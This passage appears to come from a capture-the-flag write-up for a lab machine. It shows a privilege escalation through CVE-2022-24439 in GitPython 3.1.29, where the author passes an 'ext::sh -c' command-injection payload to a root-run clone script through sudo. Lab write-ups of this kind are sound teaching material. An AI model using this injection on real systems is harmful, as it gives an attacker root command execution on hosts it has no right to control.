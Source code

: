 It runs from this directory, and takes a URL to clone from.

#### Git Versions

The `git` binary on the box is version 2.34.1:

```

prod@editorial:/$ git --version
git version 2.34.

```

However, it’s not running that binary. The script is running the Python Git package [GitPython](https://github.com/gitpython-developers/GitPython), version 3.1.29:

```

prod@editorial:/$ pip freeze | grep -i git
gitdb==4.0.10
GitPython==3.1.29

```

### CVE-2022-24439

#### Identify

Searching for this version of GitPython shows lots of discussion for CVEs:

![image-20240619144628651](/img/image-20240619144628651.png)

A bit of reading shows multiple options, but [CVE-2022-24439](https://nvd.nist.gov/vuln/detail/CVE-2022-24439) seems like an easy one to exploit. The [Snyk writeup](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858) on it has a very simple POC that seems to match the current situation:

![image-20240619144752969](/img/image-20240619144752969.png)

#### Exploit POC

As `sys.argv[1]` is what becomes the first argument to `clone_from` in the script prod can run as root, I’ll just try the payload they show:

```

prod@editorial:/$ sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwned'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c touch% /tmp/pwned new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'

```